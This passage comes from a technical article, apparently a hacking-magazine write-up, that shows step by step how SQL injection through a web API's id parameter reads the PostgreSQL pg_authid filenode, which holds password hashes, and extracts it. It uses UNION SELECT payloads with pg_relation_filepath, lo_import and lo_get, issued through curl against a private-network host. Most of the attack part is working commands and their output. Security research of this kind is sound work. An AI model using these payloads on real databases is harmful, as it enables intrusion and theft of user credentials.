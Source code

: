 ```console
drwx------ 2 postgres postgres 4096 lis 26 14:48 pg_tblspc
drwx------ 2 postgres postgres 4096 lis 26 14:48 pg_twophase
-rw------- 1 postgres postgres    3 lis 26 14:48 PG_VERSION
drwx------ 3 postgres postgres 4096 lut  4 00:22 pg_wal
drwx------ 2 postgres postgres 4096 lis 26 14:48 pg_xact
-rw------- 1 postgres postgres   88 lis 26 14:48 postgresql.auto.conf
-rw------- 1 postgres postgres  130 mar 15 11:55 postmaster.opts
-rw------- 1 postgres postgres  100 mar 15 11:55 postmaster.pid
```
<PRE>


With the data directory path obtained, we can query the relative path to
the "pg_authid" Filenode. Thankfully, there are no permission issues this
time.

</PRE>
```sh
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337, (SELECT pg_relation_filepath('pg_authid'))"
[
    {"id":1337,"text":"global/1260"}
]
```
<PRE>


With all the information in our hands, we can assume that the "pg_authid"
Filenode is located at "/var/lib/postgresql/13/main/global/1260".

Let's download it to our local machine from the target server.


---[ 3.2 - Reading and downloading the Filenode

We can now quickly download the file as a base64 string through the
Large Object functions "lo_import" and "lo_get" in the following steps:

</PRE>
```console
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337,CAST((SELECT lo_import('/var/lib/postgresql/13/main/global/1260', 331337)) AS text)"
[
    {"id":1337,"text":"331337"}
]

$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337,translate(encode(lo_get(331337), 'base64'), E'\n', '')" | jq ".[].text" -r | base64 -d > pg_authid_filenode
```
<PRE>


After decoding the Base64 into a file, we can confirm that we indeed
successfully downloaded the "pg_authid" Filenode by comparing the hashes.
